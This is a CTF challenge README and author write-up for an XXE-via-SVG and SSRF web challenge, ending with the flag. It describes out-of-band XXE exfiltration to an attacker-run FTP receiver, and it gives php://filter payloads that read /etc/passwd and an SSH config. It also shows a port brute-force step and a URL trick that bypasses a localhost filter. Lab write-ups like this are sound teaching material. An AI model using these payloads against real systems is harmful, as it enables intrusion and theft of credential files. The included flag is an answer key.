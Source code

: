 # XXE OOB via SVG + SSRF network scan + SSRF localhost bypass

## Version

Date        | Author                  | Contact               | Version | Comment
---         | ---                     | ---                   | ---     | ---
03/11/2019  | noraj (Alexandre ZANNI) | noraj#0833 on discord | 1.0     | Document creation

Information displayed for CTF players:

+ **Name of the challenge** / **Nom du challenge**: `Image Checker 2`
+ **Category** / **Catégorie**: `Web`
+ **Internet**: not needed
+ **Difficulty** / **Difficulté**: Very difficult / très difficile

### Description

```
noraj is hiding something...

Flag format: sigsegv{flag}

author: [noraj](https://pwn.by/noraj/)
```

### Hints

- Hint1: SVG
- Hint2: XXE
- Hint3: SSRF
- Hint4: SSH (user) config

## Integration

This challenge require a Docker Engine and Docker Compose.

Builds, (re)creates, starts, and attaches to containers for a service:

```
$ docker-compose up --build
```

Add `-d` if you want to detach the container.

## Solving

### Author solution

More hardcore version of *Image Checker 1* so first steps are the same but this
time the flag is not easily hidden in `/etc/passwd` but on a remote service.

1. The app ask for a SVG.
2. Other file types seem to be refused.
3. Let's pick a legit svg and sent it to see what happens. Alternatively just load `view.php` without parameter.
4. The app seems to parse info from the file.
5. Since SVG is a XML let's try a XXE attack.
6. We can't see any errors, let's try a XXE OOB.
7. Let's start a HTTP server to deliver payloads (`xxe.svg` & `xxe.xml`) and...
8. ... let's start a FTP OOB extraction receiver ([xxeserv](https://github.com/staaldraad/xxeserv)):
    ```
    ./xxeserv -p 2121 -w -wd /home/noraj/dir/ -wp 8080
    ```
9. Send the payload: http://x.x.x.x:42421/view.php?svg=http://192.168.1.84:8080/xxe.svg. (see `xxe.svg` & `xxe.xml`)
10. Read `/etc/passwd`, the home of the user `noraj` is `/home/noraj/`. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=/etc/passwd
    ```
11. Let's try to find juicy files like `.bash_hisotry`, `.profile`, etc. the only one which exists is `/home/noraj/.ssh/config`. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=/home/noraj/.ssh/config
    ```
12. The ssh config file is leaking the `hiddenservice` domaine name.
13. Then bruteforce port to find the port where a service is available: http://hiddenservice:9999. (see bruteforce script `bf_ports.rb` with in depth explanation in comments)
14. We have to request http://127.0.0.1:10000 but port and host are blocked, we have to bypass it.
15. Do an SSRF bypass. Change the `data` paylaod in `xxe.xml` to:
    ```
    php://filter/convert.base64-encode/resource=http://hiddenservice:9999?url=http://127.0.0.1:10000
    ```
    with
    ```
    php://filter/convert.base64-encode/resource=http://hiddenservice:9999/?url=http://127.0.0.1:10000%23@google.com:80/
    ```

## Flag

`sigsegv{so_y0u_ar3_r3a11y_s3eri0us_4bout_XXE_4nd_SSRF}`

